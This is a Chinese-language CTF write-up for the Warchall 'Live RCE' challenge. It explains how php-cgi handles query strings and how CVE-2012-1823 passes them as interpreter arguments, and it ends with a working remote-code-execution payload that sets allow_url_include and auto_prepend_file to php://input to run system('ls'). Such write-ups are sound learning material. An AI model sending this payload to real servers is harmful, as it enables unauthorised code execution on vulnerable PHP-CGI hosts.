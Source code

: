 ```yaml
---
title: weChall-Warchall Live RCE
date: 2017-12-18 20:42:00
tags: [WEB]
categories: CTF
copyright: true
---
```

## 前言
这一题确实以前没见过，怪我见识少咯！这是一道关于php-cgi的题目，要利用其在PHP低版本的公开漏洞`CVE-2012-1823`。
## 分析
首页给我的展示
```php
Live RCE!

Hello Guest!

Here are your $_SERVER vars:

Array
(
    [REDIRECT_UNIQUE_ID] => Wjezv7A6WcMAAAoRCTkAAAAA
    [REDIRECT_HANDLER] => application/x-httpd-php5-cgi
    [REDIRECT_STATUS] => 200
    [UNIQUE_ID] => Wjezv7A6WcMAAAoRCTkAAAAA
    [HTTP_HOST] => rce.warchall.net
    [HTTP_USER_AGENT] => Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:57.0) Gecko/20100101 Firefox/57.0
    [HTTP_ACCEPT] => text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    [HTTP_ACCEPT_LANGUAGE] => zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
    [HTTP_ACCEPT_ENCODING] => gzip, deflate
    [HTTP_CONNECTION] => keep-alive
    [HTTP_UPGRADE_INSECURE_REQUESTS] => 1
    [PATH] => /bin:/sbin:/bin:/sbin:/usr/bin:/usr/sbin:/usr/bin:/usr/sbin:/usr/local/bin:/usr/local/sbin:/usr/i686-pc-linux-gnu/gcc-bin/5.4.0:/opt/bin
    [SERVER_SIGNATURE] => 
Apache Server at rce.warchall.net Port 80


    [SERVER_SOFTWARE] => Apache
    [SERVER_NAME] => rce.warchall.net
    [SERVER_ADDR] => 176.58.89.195
    [SERVER_PORT] => 80
    [REMOTE_ADDR] => 119.36.85.130
    [DOCUMENT_ROOT] => /home/level/20_live_rce/www
    [SERVER_ADMIN] => [no address given]
    [SCRIPT_FILENAME] => /home/level/20_live_rce/www/index.php
    [REMOTE_PORT] => 43691
    [REDIRECT_URL] => /index.php
    [GATEWAY_INTERFACE] => CGI/1.1
    [SERVER_PROTOCOL] => HTTP/1.1
    [REQUEST_METHOD] => GET
    [QUERY_STRING] => 
    [REQUEST_URI] => /index.php
    [SCRIPT_NAME] => /index.php
    [ORIG_SCRIPT_FILENAME] => /usr/bin/php53-cgi/php-cgi
    [ORIG_PATH_INFO] => /index.php
    [ORIG_PATH_TRANSLATED] => /home/level/20_live_rce/www/index.php
    [ORIG_SCRIPT_NAME] => /local-bin/php-cgi
    [PHP_SELF] => /index.php
    [REQUEST_TIME] => 1513599935
)

Kind Regards
The Warchall staff!
```
开始也没看出有啥毛病，不就是显示了$_SERVER变量的内容吗，咋利用啊？后来反复看了几遍，想着可能只有php-cgi这有什么漏洞吧。于是百度了一下果然有，就是`CVE-2012-1823`的PHP远程代码执行漏洞，曾经还轰动一时。乖乖，怪自己学识太少，这都不知道。
## 知识点
这里直接引用了[这篇博文](https://paper.seebug.org/297/)的一段话
>php-cgi也是一个sapi。在远古的时候，web应用的运行方式很简单，web容器接收到http数据包后，拿到用户请求的文件（cgi脚本），并fork出一个子进程（解释器）去执行这个文件，然后拿到执行结果，直接返回给用户，同时这个解释器子进程也就结束了。基于bash、perl等语言的web应用多半都是以这种方式来执行，这种执行方式一般就被称为cgi，在安装Apache的时候默认有一个cgi-bin目录，最早就是放置这些cgi脚本用的。

>但cgi模式有个致命的缺点，众所周知，进程的创建和调度都是有一定消耗的，而且进程的数量也不是无限的。所以，基于cgi模式运行的网站通常不能同时接受大量请求，否则每个请求生成一个子进程，就有可能把服务器挤爆。于是后来就有了fastcgi，fastcgi进程可以将自己一直运行在后台，并通过fastcgi协议接受数据包，执行后返回结果，但自身并不退出。

>php有一个叫php-cgi的sapi，php-cgi有两个功能，一是提供cgi方式的交互，二是提供fastcgi方式的交互。也就说，我们可以像perl一样，让web容器直接fork一个php-cgi进程执行某脚本；也可以在后台运行php-cgi -b 127.0.0.1:9000（php-cgi作为fastcgi的管理器），并让web容器用fastcgi协议和9000交互。

>那我之前说的fpm又是什么呢？为什么php有两个fastcgi管理器？php确实有两个fastcgi管理器，php-cgi可以以fastcgi模式运行，fpm也是以fastcgi模式运行。但fpm是php在5.3版本以后引入的，是一个更高效的fastcgi管理器，其诸多优点我就不多说了，可以自己去翻翻源码。因为fpm优点更多，所以现在越来越多的web应用使用php-fpm去运行php。
>CVE-2012-1823就是php-cgi这个sapi出现的漏洞，我上面介绍了php-cgi提供的两种运行方式：cgi和fastcgi，本漏洞只出现在以cgi模式运行的php中。
这个漏洞简单来说，就是用户请求的querystring被作为了php-cgi的参数，最终导致了一系列结果。
探究一下原理，RFC3875中规定，当querystring中不包含没有解码的=号的情况下，要将querystring作为cgi的参数传入。所以，Apache服务器按要求实现了这个功能。
但PHP并没有注意到RFC的这一个规则，也许是曾经注意并处理了，处理方法就是web上下文中不允许传入参数。

## 解决
看了上面的知识点就知道了如何利用了，于是有了下面的payload
```php
POST /index.php?-d+allow_url_include%3don+-d+auto_prepend_file%3dphp%3a//input

POST data: <?php system('ls');?>
```